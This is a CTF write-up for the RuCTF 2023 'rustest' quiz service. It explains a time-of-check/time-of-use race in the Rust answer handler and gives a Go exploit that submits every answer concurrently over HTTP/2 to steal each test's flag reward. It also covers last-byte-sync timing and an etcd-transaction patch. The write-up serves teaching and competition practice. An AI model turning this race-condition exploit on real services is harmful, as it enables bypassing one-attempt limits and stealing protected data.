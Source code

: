 # RuCTF 2023 | rustest

## Description

Service presents place for creating tests, or victorines. More detailed functionality is:


- register and login as user
- create and rustests
- solve rustests
- list users and rustests


Each rustest contains the reward. The reward of the rustest is a flag data. To get reward of rustest you must answer for all questions of rustest correctly.

## First idea


Rustest is allowed to solve only once to each user. But the questions and correct answers of tests are the same for each user. So, we can iterate over all possible sequence of answers, registering a user for each sequence. 


But, well, there are too many possible sequences of answers. Checker's tests contained 10 questions with 4 variants of answers in each one. To iterate over all possible solutions we need to generate `4**10` sequences!. Moreover, each sequence can be checked for correctnes only using 10 queries at least. It's over 10**6 requests. Considering the fact, that flag is alive only for 15 mins, we need to generate more than 10k requests per second, such a large traffic could harm infrastructure and could be banned by orgs. Moreover, you need to do the same for each team in competition, to steal their flags. 

## Vulnerability

The vulnerability was hidden in logic. It's logical race condition! Let's look at the code of the solving rustest more closely. (Ommiting working with async runtime and error handling).

```rust
// ...
let user_state = self.storage.get_user_state_on_test(&req.user_id, &req.test_id)

if user_state.cur_round != req.round {
    return Err(RustestApplicationError::InvalidDataProvided);
}

if req.round as usize >= rustest.questions.len() {
    return Err(RustestApplicationError::InvalidDataProvided);
}

let question = rustest.questions.get(req.round as usize).unwrap();
let increment_points = req.answer == question.correct_idx;

let next_state = self.storage.increment_user_round_on_test(
    &req.user_id,
    &req.test_id,
    increment_points,
    Some(user_state),
);

if next_state.cur_round as usize >= rustest.questions.len() {
    let final_state = if next_state.points == next_state.cur_round {
        FinalRustestState::Win {
            reward: rustest.reward,
        }
    } else {
        FinalRustestState::Lose
    };

    return Ok(SubmitAnswerResponse::Final { final_state });
}

return Ok(SubmitAnswerResponse::Running {
    question: rustest.questions[next_state.cur_round as usize]
        .clone()
        .into(),
    round: next_state.cur_round,
})
...
```

If we'd look at this code more conceptually, we could see the typicall TOC-TOU (time of check - time of use)

```rust
user_state = get_state();
if some_condition(state) {
    ...
} else {
    ...
}
save_state(user_state);
```

So, imagine four workers on four threads of cpu are trying to execute this function with *four different answers*. All of them have loaded the same state of user. One of the answers is *100% correct*, (because there are 4 answers in total). So, worker, handling the request with correct answer will increment amount of points of user, submitting this answer. 

Yes, service checks, that user hasn't answered more than once in each round. But the state is loaded from storage is the same for all submits and the check of current round will be succeed for all workers.

## Exploitation

To exploit the vulnerability, we have to spam each round of the test with multiple answers concurrently. To make it we can user multiple strategies. 

1) Realy huge amount of requests. But we couldn't sploit the vulnerability in this way.
2) Use http1.1 pipelining. Unfortunetaly, this way wasn't successful too. Because most of the servers execute pipelined http requests sequentially, not concurrently. Rust's axum is not an exception, as we discovered while developing the task. 
3) last-byte-sync. We can create 4 connections, send 4 requests in parrallel, excluding the last byte. The server will be waiting the last byte for each of the requests. And after that, we can send one IP packet with 4 last bytes of each tcp connect. That technique increases probability of race success. 
4) Using http2 multiplexing. Analogue of http1.1 pipelining, but this protocol feature allows to handle requests from one tcp connect concurrently, and send responses to that tcp connect concurrently too (you can read about http2 streams). The author's sploit used this technique. To use http2 with more comfort, go was used to write the exploit.
5) The combination of the methods: we can use last-byte-sync with http2 multiplexing :)

[Sploit](/sploits/rustest/main.go)
```go
// ...
func trySploitRound(ctx context.Context, client *http.Client, state testState, url string, token string, testID string) (maybeFlag string, success bool, nextState *testState, err error) {
	// the final state was provided as previous one
    if state.State == "Final" {
		if state.FinalState.Result == "Lose" {
			return "", false, &state, fmt.Errorf("lose result, user %s", token)
		}

		return *state.FinalState.Reward, true, &state, nil
	}

	var wg sync.WaitGroup
	var roundErr error = nil
	var errOnce sync.Once

	answersNum := len(state.Question.AllowedAnswers)
	responses := make([]testState, answersNum)
	for answer := 0; answer < answersNum; answer++ {
		answer := answer
		wg.Add(1)

        // for each of the allowed answers we are running a goroutine
        // that is sending response to the test
		go func() {
			defer wg.Done()

			resp, err := submitResponse(ctx, client, url, testID, *state.Round, answer, token)
			if err != nil {
				errOnce.Do(func() { roundErr = err })
				return
			}
            // save the response
			responses[answer] = *resp
		}()
	}

    // wait for all the responses
	wg.Wait()

	if roundErr != nil {
		return "", false, nil, fmt.Errorf("error occurred while trying to submit answers: %w", roundErr)
	}

	if responses[0].State == "Final" {
		// that was final question, other responses MUST contain win information
		for _, resp := range responses {
			if resp.State != "Final" {
				return "", false, nil, fmt.Errorf("inconsistent state, not all states are final for user %s", token)
			}

			if resp.FinalState.Result == "Win" {
				return *resp.FinalState.Reward, true, &resp, nil
			}
		}

		// all responses contain not win result
		return "", false, nil, fmt.Errorf("inconsistent state, all final states for user %s are Lose", token)
	}

	rnd := *responses[0].Round
	for _, resp := range responses {
		// all responses must contain equal rounds
		// if round wasn't specified, or round was present, but not equal to round of first response
		if resp.Round == nil || *resp.Round != rnd {
			return "", false, nil, fmt.Errorf("rounds after submits are differrent")
		}
	}

    // all responses contain the same round, we can return any of them. 
	return "", true, &responses[0], nil
}
// ...
func makeClient() *http.Client {
	return &http.Client{
		Transport: &http2.Transport{
			AllowHTTP: true,
			DialTLSContext: func(ctx context.Context, network, addr string, cfg *tls.Config) (net.Conn, error) {
				var d net.Dialer
				return d.DialContext(ctx, network, addr)
			},
		},
	}
}
```

We need to consider the following things in this code:
1) The same http client is passed throug all of the funcitons. That was made for tcp connection reusing for http2 multiplexing. (a lot of reqeusts are sent to the server concurrently through one tcp connect)
2) http client uses http2 transport. 

Yes, the code belives, that the go runtime will use http multiplexing correctly. We could do it manually, using raw bytes. But author was too lazy discover http2 packets format :)

This sploit hacks the test in 15 attempts in average, or in 25 in 0.9 percentile (90% of attacks finished in less than 25 attempts). But every attack contained many requests, but much less than brute force. Moreover, requests are lightweight, traffic ammount wasn't too big. And, one more word to say, many requests were layed in a one tcp packet, and that is good for the network throughoutput.

## Patch

You can patch the service in any way you want, but the author prefered to make a transaction to etcd with checking, that the round is not changed in the storage. 